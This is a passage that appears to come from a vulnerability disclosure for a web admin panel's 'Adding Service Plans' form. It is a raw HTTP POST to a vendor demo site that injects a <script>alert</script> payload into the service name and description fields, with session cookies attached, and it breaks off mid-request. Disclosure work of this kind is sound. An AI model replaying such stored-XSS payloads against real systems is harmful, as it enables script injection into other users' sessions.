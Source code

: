 ### Adding Service Plans

```http
POST /admin.php?cont=store_service HTTP/1.1
Host: radmandemo.dmasoftlab.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------408088260618922419663198838811
Content-Length: 6939
Origin: http://radmandemo.dmasoftlab.com
DNT: 1
Connection: keep-alive
Referer: http://radmandemo.dmasoftlab.com/admin.php?cont=new_service
Cookie: PHPSESSID=1u7c5e6hnobson7n53vt7o3vq3; listusers_ordercol=username; listusers_ordertype=ASC; newuser_acctype=0; login_admin=admin; login_user=user; lstinv_trtype=0; lstinv_pmstatus=-1; lstinv_trusr=1; lstinv_trman=1; lstinv_paymode0=1; lstinv_paymode1=1; lstinv_paymode2=1; lstinv_paymode3=1; lstinv_paymode4=1; lstinv_paymode5=1; lstinv_paymode6=1; lstinv_paymode7=1; lstinv_paymode8=1; lstinv_paymode9=1; lstinv_paymode10=1; lstinv_paymode11=1; lstinv_paymode12=1; lstinv_paymode13=1
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

-----------------------------408088260618922419663198838811
Content-Disposition: form-data; name="srvname"

<script>alert("xss 1d8")</script>
-----------------------------408088260618922419663198838811
Content-Disposition: form-data; name="descr"

<script>alert("xss 1d8")</script>
-----------------------------408088260618922419663198838811
Content-Disposition: form-data; name="enableservice"

1
-----------------------------408088260618922419663198838811
Content-Disposition: form-data; name="srvtype"

0
-----------------------------408088260618922419663198838811
Content-Disposition: form-data; name="downrate"

0
-----------------------------408088260618922419663198838811
Content-Disposition: form-data; name="uprate"

0
-----------------------------408088260618922419663198838811
Content-Disposition: form-data; name="policymapdl"


-----------------------------408088260618922419663198838811
Content-Disposition: form-data; name="policymapul"


-----------------------------408088260618922419663198838811
Content-Disposition: form-data; name="dlquota"

0
-----------------------------408088260618922419663198838811
Content-Disposition: form-data; name="ulquota"

```
